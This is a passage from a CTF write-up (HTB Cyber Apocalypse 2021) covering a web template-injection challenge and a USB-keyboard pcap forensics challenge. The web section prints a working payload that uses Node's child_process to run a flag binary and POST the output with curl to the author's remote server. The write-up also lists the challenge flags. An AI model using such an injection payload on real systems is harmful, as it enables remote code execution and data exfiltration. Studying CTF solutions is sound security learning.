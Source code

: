 We also see there is a "readflag" binary that we must run in order to read the flag from /root/flag.txt.

Simply submitted below payload to read the flag and send the content via POST request to my VPS IP:

{% raw %}
```
rh0x01{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl -X POST --data $(/readflag) [REDACTED-MY-VPS-IP]:8888')")()}}sir@flag.pls
```
{% endraw %}

Caught the flag content using netcat listener:

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424070257.png#center)

```
CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}
```

&nbsp;

# # Forensics

## # Key mission

We were given a pcap file that contained USB capture, there were similar challenges in other CTFs so people even made scripts to solve it.

[https://github.com/TeamRocketIst/ctf-usb-keyboard-parser](https://github.com/TeamRocketIst/ctf-usb-keyboard-parser)

Extracted all the keyboard input data using below command:

```
tshark -r ./key_mission.pcap -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata | sed 's/../:&/g2' > usbPcapDat
```

Used the script from above repo to purse the keys:

```sh
$ python usbkeyboard.py usbPcapDat
I am sending secretary's location over this totally encrypted channel to make sure no one else will be able to read it except of us. This information is confidential and must not be shared with anyone else. The secretary's hidden location is CHTB{a_plac3_fAr_fAr_away_fr0m_earth}
```
